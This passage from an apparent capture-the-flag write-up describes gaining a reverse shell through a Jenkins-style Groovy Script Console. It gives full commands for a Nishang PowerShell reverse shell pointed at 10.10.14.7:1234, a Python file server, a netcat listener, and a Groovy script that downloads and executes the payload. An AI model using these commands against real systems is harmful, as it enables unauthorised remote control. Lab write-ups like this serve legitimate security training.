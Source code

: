 We have code execution! Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then going back to the _Script Console_, add the following Groovy script.

```text
def command = “powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.7:5555/shell.ps1')"
def proc = command.execute()
println(proc.in.text)
```

Run the above script. We get a shell!

![](../images/max/780/1*OlB7sQOblkxfJYemixqfOg.png)

Grab the _user.txt_ flag.

![](../images/max/666/1*sJw6TLsmV6sBA6IATEipHg.png)
